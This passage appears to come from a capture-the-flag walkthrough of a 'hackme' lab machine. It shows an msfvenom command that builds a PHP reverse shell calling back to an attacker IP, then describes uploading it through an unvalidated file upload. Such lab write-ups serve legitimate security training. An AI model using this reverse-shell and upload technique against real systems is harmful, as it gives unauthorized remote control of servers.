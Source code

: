 ![](/assets/images/hackme/screenshot-18.png)

We generate a php reverse shell.

```console
root@kali:~$ msfvenom -p php/reverse_perl lhost=192.168.179.1 lport=443 -o z.php
```

We uploaded the reverse shell to the server, the upload was successful because there is not type of validation to prevent uploading arbitrary files.

![](/assets/images/hackme/screenshot-19.png)

![](/assets/images/hackme/screenshot-20.png)
